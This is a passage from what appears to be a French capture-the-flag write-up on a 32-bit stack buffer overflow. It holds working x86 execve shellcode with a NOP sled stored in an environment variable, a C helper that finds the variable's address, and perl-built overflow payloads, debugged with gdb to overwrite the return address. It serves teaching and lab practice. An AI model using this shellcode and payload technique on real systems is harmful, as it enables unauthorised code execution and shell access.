 	$ export shellcode=$(perl -e 'print "\x90"x128 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')

On écrit ensuite un petit programme pour récupérer l'adresse d'une variable d'environnement donnée, pour un programme donné (on se met dans un répertoire avec les droits d'écriture -- par exemple dans /tmp):

	$ cat getenv.c
	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>

	int
	main(int argc, char **argv)
	{
        	char *p = NULL;
	
        	if(argc < 3) {
                	fprintf(stderr, "Usage: %s <env name> <binary>\n", argv[0]);
                	return EXIT_FAILURE;
        	}

        	p = getenv(argv[1]);
        	p += (strlen(argv[0]) - strlen(argv[2])) * 2;
        	printf("%s is set at %p\n", argv[1], (void *) p);

        	return EXIT_SUCCESS;
	}
	$ cc -o getenv getenv.c -m32
	$ ./getenv shellcode $HOME/prog
	0xbffffd47

Ok! Enfin on peut tester ce programme!

	$ perl -e 'print "USERNAME=" . "A"x128 . "'$uid'" . "'$pid'" . "'$fileptr'" . "B"x32 . "\x47\xfd\xff\xbf"' > "$binpath"  && ./ch10 "$binpath"
	Segmentation fault

Pour avoir des infos supplémentaires je copie le binaire dans /tmp/prout:

	$ cp ./prog /tmp/prout
	$ ulimit -c unlimited

Maintenant un SIGSEGV me donnera quelque chose a manger:

	$ perl -e 'print "USERNAME=" . "A"x128 . "'$uid'" . "'$pid'" . "'$fileptr'" . "B"x32 . "\x47\xfd\xff\xbf"' > "$binpath"  && ./ch10 "$binpath"
	Segmentation fault (core dumped)
	$ gdb ./prog core
	Core was generated by `./prog /tmp/prout/foo.bin'.
	Program terminated with signal 11, Segmentation fault.
	#0  0x42424242 in ?? ()

Ah? Je me serais planté de 4 bytes pour l'adresse dans la stack ou je devrais écraser $eip? Ok... bon ben on décale alors, histoire de faire coïncider l'adresse du shellcode dans l'environnement avec $eip. On insère donc 28x"B" au lieu de 32, et on rajoute un gentil petit canary apres l'adresse, au cas où.
